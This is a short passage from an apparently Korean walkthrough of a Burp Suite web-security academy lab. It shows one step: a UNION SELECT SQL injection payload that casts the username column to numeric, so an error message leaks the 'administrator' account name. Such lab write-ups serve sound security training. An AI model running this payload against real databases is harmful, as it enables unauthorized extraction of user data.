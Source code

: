 ![](/images/burp-academy-serial-8-14.png)

## 11. users 테이블에서 유저명 알아내기 

쿼리를 다음과 같이 수정한다. 

```sql
' UNION SELECT NULL, NULL, NULL, CAST(username AS numeric), NULL, NULL, NULL, NULL FROM users--
```

이를 보내면 다음과 같은 결과가 돌아온다. 이를 통해 유저명이 `administrator`인 것을 알아냈다. 
